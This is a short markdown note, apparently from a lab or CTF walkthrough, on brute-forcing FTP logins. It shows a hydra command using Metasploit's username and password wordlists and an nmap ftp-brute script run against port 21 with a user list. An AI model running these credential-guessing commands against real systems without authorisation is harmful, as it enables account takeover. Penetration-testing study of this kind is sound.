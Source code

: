 
### Using `hydra`
```
hydra -L <user_wordlist> -P <pass_wordlist> <Machine_IP> ftp
```


- **Username word-list path:**
```
/usr/share/metasploit-framework/data/wordlists/common_users.txt
```

- **Password word-list path:**
```
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

### Using `nmap`

- Put the username found in single word-list:
```
echo "sysadmin" > users
```

- Use NMAP:
```
nmap <Machine-IP> --script ftp-brute --script-args userdb=/root/users -p 21
```
*We need to provide the username wordlist we created in arg userdb.*

